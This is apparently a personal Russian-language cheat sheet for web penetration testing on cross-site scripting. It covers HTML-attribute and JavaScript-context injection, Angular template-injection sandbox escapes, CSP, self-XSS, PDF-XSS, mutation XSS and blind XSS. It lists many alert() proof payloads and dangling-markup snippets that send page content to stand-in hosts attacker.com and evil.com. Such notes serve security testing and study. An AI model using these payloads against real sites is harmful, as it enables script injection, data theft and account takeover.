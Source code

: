 ***
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)
***
# Навигация

> [[XSS#XSS в HTML атрибутах|1. XSS в HTML атрибутах]]
> [[XSS### XSS into JavaScript|2. XSS into JavaScript]]
> [[XSS#CSTI - Client side template injection|3. CSTI - Client side template injection]]
> [[XSS#Dangling Markup|4. Dangling Markup]]
> [[XSS#**CSP**|5. CSP]]
> [[XSS#Self-XSS|6. Self-XSS ]]
> [[XSS#PDF-XSS|7. PDF-XSS]]
> [[XSS#Mutation XSS|8. Mutation XSS]]
> [[XSS#Bliend XSS|9. Bliend XSS]]
***
# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```javascript
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`

# CSTI - Client side template injection
[XSS in Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
**CSTI** - тип уязвимости, возникающий, когда разработчик позволяет пользовательскому вводу определять выражения шаблонов на веб-странице, что позволяет злоумышленнику внедрять вредоносные выражения шаблонов (которые являются упрощённым JavaScript) для эксплуатации веб-приложения. Это происходит в браузере и HTML, аналогично тому, как работает межсайтовый скриптинг (XSS). Некоторые JS фреймворки, такие как AngularJS, имеют песочницу, которая предотвращает использование определённых объектов, к которым разработчик не имел права доступа. Чтобы злоумышленник мог эксплуатировать это, ему нужно найти способ "выбраться" из песочницы, что означает получение доступа к областям, таким как объект документа, чтобы проэксплуатировать веб-приложение.

>Также иногда с помощью CSTI могут обходить CSP, допустим он разрешает погружать скрипты только с [some.com](http://some.com/), вы идёте туда, находите там Angular.js файл, а дальше подключаете его к странице, внедряете директиву ng-app и вставляете пэйлоад:

`<script src='<https://some.com/angular.min.js>'></script><div ng-app>{{$on.constructor.constructor('alert(document.domain)')()}}`

Для эксплуатации CSTI в Angular без песочницы используют следующую полезную нагрузку:

`{{$on.constructor('alert(1)')()}}`
# Dangling Markup
Кража данных посредством эксплуатации пэйлоада с открывающейся `'`, но не закрывая её:
[Dangling Markup - HTML scriptless injection | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
```html 
<img src='http://attacker.com/log.php?HTML=
```
```html
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```
```html
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
# **CSP**
[Content Security Policy (CSP) Bypass | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

<div style="margin:5px; padding:5px; background-color: #E56D3D"><b>CSP (Content Security Policy)</b> - позволяет определять белые списки источников для подключения JavaScript, стилей, изображений, фреймов, создания соединений. </div>

<div style="margin:5px; padding:5px; background-color: #E56D3D">Также CSP может регулировать возможность исполнения inline-скриптов, возможность подключения текущей страницы во фрейме и т. д.</div>

CSP — это механизм безопасности браузера, целью которого является смягчение XSS и некоторых других атак. Он работает путем ограничения ресурсов (таких как скрипты и изображения), которые может загружать страница, и ограничения возможности включения страницы в рамки других страниц. 

Чтобы включить CSP, ответ должен включать заголовок `Content-Security-Policy` со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.
## CSP директивы 

[CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/) - сервис для проверки на безопасность веб-страницы по её CSP тегам. 
![[CSP директивы.png]]

# Self-XSS
**Self-XSS** - это форма атаки, при которой жертва атаки ненамеренно запускает вредоносный код в своём собственном браузере, что приводит к раскрытию личной информации атакующему. Это достигается путём **обмана пользователей в копировании и вставке вредоносного контента в консоль веб-разработчика** их браузера. В обычных условиях атакующий публикует сообщение, утверждая, что копирование и выполнение определённого кода позволит пользователю получить виртуальные награды или взломанный сайт. На самом деле код позволяет атакующему захватить учётную запись жертвы. 

# PDF-XSS
Если браузер использует PDF, можно исполнить JS следующим образом:
```url
https://sute/file.pdf#any=javascript:alert(1)
```
# Mutation XSS
**Mutation XSS (mxss)** - тип атаки на веб-приложение, который происходит, когда ненадёжные данные обрабатываются в контексте свойства DOM 'innerHTML' и изменяются браузером. Этот  тип атаки особенно опасен, поскольку он может обойти большинство существующих фильтров и санитайзеров XSS, позволяя вредоносному коду выполняться в браузере пользователя. Примером может служить ситуация, когда сервер корректно экранирует входные данные, но не предотвращает их декодирование браузером в вредоносный скрипт из-за сложного поведения браузера, который переинтерпретирует контент. 
Другими словами браузер может самостоятельно не только декодировать символы, но и дописывать HTML теги. Т.е если подать на вход:
```javascript
<template><p title="</template><img src=x onerror=alert(1)>">
```
То браузер может переписать это в:
```javascript
<template>
	<p title="</template><img src=x onerror=alert(1)>"></p>
</template>
```
# Bliend XSS
**Bliend XSS** - тип уязвимости, при котором вредоносный код внедряется в веб-приложение и сохраняется на сервере, но его выполнение происходит в другом месте, недоступном для атакующего. 
Можно поднять у себя следующую службу: [XSS Hanter Express](https://github.com/mandatoryprogrammer/xsshunter-express), они служит отличный инструментом для эксплуатации **bliend XSS**.
